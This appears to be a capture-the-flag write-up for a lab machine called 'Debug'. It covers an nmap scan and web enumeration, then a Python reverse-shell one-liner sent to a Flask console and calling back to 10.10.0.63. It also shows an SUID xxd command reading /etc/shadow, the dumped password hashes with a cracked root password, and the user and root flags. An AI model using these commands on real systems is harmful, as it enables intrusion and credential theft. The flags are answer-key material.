# DEBUG



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9e:84:e4:df:52:83:55:3f:90:43:d1:8e:4a:18:8b:0c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCjw3/SGfDr8T9JpbIIbsr6rgM9gT4oq2jRJRb05jaME/m7wKYIdAWN49wmGJfyTyc83G1JrW0M7nbCuM9mlH39C13DmvEqtdSKQdRzyMSXnCXgtIXqphdOJ7R72XIHK9rGPdvyo4xQr8kq1Uv40IwDa0IE/0tXHXy5jXg5QWf8sXN0FBdao179R4jeyOBXvjJ/fE4YHekbOsU6ENnlwQlrv1tV7nKV6nXogTYcdoa97fLXMVEhS4qgbWem4NUsQyJHPXpT1+qIivcR0/aADOwkT/d5fJt/uRa9QoSV2sk65O8lanjhmLt5US3/gYINR/NZMm0EgJD29OHcIkIvYgLL
|   256 f6:1a:89:b2:ca:57:7a:47:be:88:9b:3e:8f:e8:52:98 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF2xhlajvKFWIWjnZmCQnslIpFio0Ik/lDe/K082uY0LmIkidZeAmqNqpRjmJV8tFXBlGBk334qtlyUj07ajhw4=
|   256 01:f2:94:0a:d3:54:52:15:87:ae:73:bc:4d:70:6e:90 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBtSouJqn96zP914zke1cXif+LCjUPjZnKYFa43ewVEP
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Future Design
```

## PORT 80 ENUMERATION




### GOBUSTER



### /console





## EXPLOIT

### THIS EXPLOIT DID NOT WORK





### MANUAL WITH BURPSUITE

It seems that we need to send twice the same command \(First give us a not found error, and the second works\). The Server is running Flask so we can send this reverse shell:

```text
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.63",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```




### IMPROVE SHELL


## MACHINE ENUMERATION

### LINPEAS

* [https://gtfobins.github.io/gtfobins/xxd/\#suid](https://gtfobins.github.io/gtfobins/xxd/#suid)



## PRIVESC

```text
/usr/bin/xxd "/etc/shadow" | /usr/bin/xxd -r
```



```text
root:$6$YbP4.h/m$HTWC5ubw1dJK1Ed11RExV/55T0JlRnjtPcCyQEugG470lfZG2Eo8Id2ZeEb2vBnHRTVZls2kZNnaC7GZRCjwf/:18358:0:99999:7:::
megan:$6$agnTjgTe$wyLY7h/29DB/5ZfcArQYPBpMYxfsvJH5FoPKA9zufGOte5OLZbFUnA10xapEsPkDm7monYX9q1y5cFZTOKRPF.:18359:0:99999:7:::
```

## CRACK HASHES USING HASHCAT

* For this i use always my windows computer to take advantage of the GPU.
* Because user Meg have sudo, i will try to crack both hashes.
* [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

```text
HASH-MODE IS 1800
```





```text
root:shanghai
```



## FLAGS

### USER

```text
ddaa8107cb89153f1ed2e53bca360e55
```

### ROOT

```text
8536837705419b39ca46f3d8c9669368
```


